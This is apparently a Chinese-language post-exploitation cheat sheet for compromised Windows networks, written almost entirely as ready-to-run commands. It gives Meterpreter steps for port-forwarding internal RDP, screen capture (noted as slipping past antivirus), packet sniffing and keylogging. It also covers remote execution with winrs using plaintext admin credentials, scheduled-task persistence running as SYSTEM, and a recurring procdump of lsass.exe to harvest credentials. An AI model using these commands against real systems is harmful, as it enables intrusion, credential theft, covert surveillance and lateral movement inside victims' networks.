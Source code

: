 将 192.168.1.2.100 内网转发到本地 4443 port，流量大不好用

> portfwd add -L 0.0.0.0 4443 -p 3389 -r 192.168.2.100

### Msf 截屏(没被 360 拦没提示，或许有意外收获)

> meterpreter > use espia
>
> meterpreter > screengrab

### Msf 嗅探

> meterpreter > use sniffer
>
> meterpreter > sniffer_interfaces
>
> meterpreter > sniffer_start 5
>
> meterpreter > sniffer_dump 5 /tmp/1.pcap
>
> meterpreter > sniffer_stop 5

### 键盘记录

Msf 键盘记录在 win 不会创建新进程

> meterpreter > keyscan_start 
>
> meterpreter > keyscan_dump 
>
> meterpreter > keyscan_stop 

Keylogger (tip: 可以把管理工具，如 navicat, putty, SecureCRT, PLSQL 设置记住密码) --redrain ixkeylog

linux>=2.63 推荐 --redrain 

### 远程命令执行

> at\schtasks\psexec\wmic\sc\ps

2012 r2 起,默认端口 5985,系统自带远程管理 winrs

> winrs -r:192.168.1.100 -u:administrator -p:pwd ipconfig

这里 schtasks 用着很舒服，

> schtasks /create /tn mytask /tr F:\Desktop.exe /sc minute /mo 1  每分运行1次

如果程序有参数用引号 

> "C:\procdump64.exe -accepteula -ma lsass.exe lsass.dmp"

``/RU`` 可以以 system 启动，例如 

> schtasks /Create /TN test /SC DAILY /ST 00:09 /TR notepad.exe /RU SYSTEM

> schtasks /create /tn mytask /tr "C:\procdump64.exe -accepteula -ma lsass.exe lsass.dmp" /sc minute /mo 2
